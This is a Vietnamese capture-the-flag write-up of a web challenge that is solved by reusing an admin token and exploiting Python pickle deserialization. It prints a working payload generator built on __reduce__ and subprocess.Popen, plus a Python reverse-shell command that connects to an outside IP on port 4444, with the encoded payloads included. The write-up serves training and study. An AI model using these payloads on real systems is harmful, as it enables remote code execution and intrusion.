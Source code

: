 # Write up Padding Pickle - GDUCTF
Đầu tiên khi mở challange cho ta một form login, ta thử nhập 1 giá trị bất kỳ thì không đăng nhập được, thử login với username và password đều là ``admin`` thì đăng nhập thành công và redirect ta qua trang ``dashboard``:

![this is image](./img/dashboard.png)

Trang web bảo ta không phải là admin, và cho ta 1 đường dẩn để view log, khi nhấn vào đường dẩn:

![this is image](./img/log.png)

Trang log cho ta thông tin về ``username`` và ``token``, và để ý thấy tại trang ``dashboard`` thì url có nhận 1 param là ``token``, ta thử thay đổi ``token`` đó bằng ``token`` của admin (url encode token trước khi chèn):

![this is image](./img/loginbytoken.png)

Nhìn vào trang web admin có gợi ý ta về ``pickle`` và phần placeholder của input là mã base64 của một serialize pickle, ta suy đoán web này sẽ có ``Pickle-Deserialization vulnerability``

> Pickle là một module cho phép serialize và deserialize object trong Python. 

Ta dùng đoạn code sau để tạo payload:
```python
import subprocess
import base64
import pickle
 
class Exploit(object):
    def __reduce__(self):
        cmd = "whoami"
        return  subprocess.Popen,(cmd,)
 
print(base64.b64encode(pickle.dumps(Exploit())))
```
***Giải thích**: ta dùng hàm ``__reduce___`` để RCE. Vì
1. Hàm ``__reduce__()`` không nhận tham số và sẽ được gọi khi object được ``pickle``
2. Hàm này sẽ return về string hoặc tuple (khuyến khích là tuple). Khi một tuple được return thì tuple đó phải có từ 2-6 items. Trong đó item đầu sẽ là một ``callable object``. Và ``callable object`` này sẽ được gọi để khởi tạo phiên bản ban đầu của object. Item thứ 2 sẽ là một tuple con chứa các tham số của ``callable object`` ở item 1

Ở payload trên thì ``callable object`` là ``subprocess.Popen`` và ``whoami`` là param của ``calable object``
> class ``subprocess.Popen`` cho phép tạo ra một luồng mới trong ứng dụng và thực hiện chương trình con tại luồng mới đó và ``subprocess.Popen`` sẽ nhận tham số là đầu một tuple, mỗi item của tuple là một phần của câu command bất kỳ và cuối cùng sẽ thực hiện câu command đó

Và cuối cùng dùng ``dumps`` để serialize và hàm ``b64encode`` để encode

Output:
``bash
b'gASVJQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwGd2hvYW1plIWUUpQu'
``

Ta nhập vào input được kết quả:

![this is image](./img/uploadpickle.png)

Ta thấy web chỉ deserialize payload và hiện ra dòng "I recieved, but can you RCE me?", nên ta không thể cho in output một cách bình thường mà phải dùng reverse shell

Tuy nhiên ta thử dùng ``nc`` và ``bash`` đều không được nên ta thử tới reverse shell bằng ``python``

Ta thay biến ``cmd`` của payload thành:
```python
cmd = "python3","-c",'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.28.45.159",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Output: 
```bash
b'gASVBgEAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwHcHl0aG9uM5SMAi1jlIzWaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE3Mi4yOC40NS4xNTkiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKZSHlIWUUpQu'
```
Ta dùng ``netcat`` listen trên port 4444 sau đó inject thử:

![this is image](./img/rs.png)

Ta đã thực reverse shell thành công và tiến hành đọc flag:

![this is image](./img/shell.png)

>**FLAG:** KCSC{P4dd1ng_0racl3_4tt4ck_4nd_p1ckl3_uns3r1al1ze}



